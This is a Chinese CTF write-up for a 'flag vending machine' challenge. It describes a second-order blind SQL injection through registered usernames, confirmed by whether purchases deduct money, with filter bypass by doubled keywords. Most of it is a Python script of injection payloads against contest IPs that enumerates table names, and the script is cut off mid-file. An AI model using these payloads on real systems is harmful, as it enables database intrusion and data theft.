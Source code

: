 ## flag vending machine ##

有一个迷惑的id，但是实际上没有任何卵用，感觉是完全无脑case过去的，所以看看别的点。

注册ddog'，在购买东西的时候显示购买成功，但是没有成功扣款。

那应该是存在二次注入，那我可以通过注册账号，然后购买东西，看钱是否减少，来判断条件的真假，这样可以构造出一个二次盲注。

其中还有一点儿过滤，可以通过复写绕过，可以直接通过注册来看名字判断这个问题，加在脚本里。

```
# coding=utf-8

import requests
import random
import hashlib
import time
from random import Random

s = requests.Session()
# url = 'http://106.75.107.53:8888/'
# url = 'http://120.132.55.92:8888/'
url = 'http://120.132.20.183:8888/'
tables_count_num = 0


def get_tables(url):
	
	for i in xrange(50):
		payload = "ddog123' or ((SELECT COUNT(*) from information_schema.tables WHERE table_schema = DATABASE())="+str(i)+")#"

		if get_data(payload):
			print "[*] tables_number: "+str(i)
			tables_number = i
			break

	for j in range(0,tables_number):
		for i in xrange(50):
			payload = "ddog123' or ((SELECT length(table_name) from information_schema.tables WHERE table_schema = DATABASE() limit 1 offset "+str(j)+")="+str(i)+")#"

			if get_data(payload):
				print "[*] tables_length: "+str(i)
				tables_length = i
				break

		tables = ""
		
		for i in range(1,tables_length+1):
			for k in range(30,128):
				payload = "ddog123' or (SELECT ascii(mid(((SELECT table_name from information_schema.tables WHERE table_schema = DATABASE() limit 1 offset "+str(j)+"))from("+str(i)+")))="+str(k+1)+")#"

				# print payload
				if get_data(payload):
					tables += chr(k+1)
					print "[*] tables: "+tables
					break

		print "[*] tables: " + tables


def get_colums(url):
```

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hml88kgi4o6fedxcf2b310a2/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ovwsqpqw3m7woxybr5n1rx0a/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fezpkgin6jwtnpw28y6ep02b/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/tr0z404vlz8pe1622z4uxpm5/image.png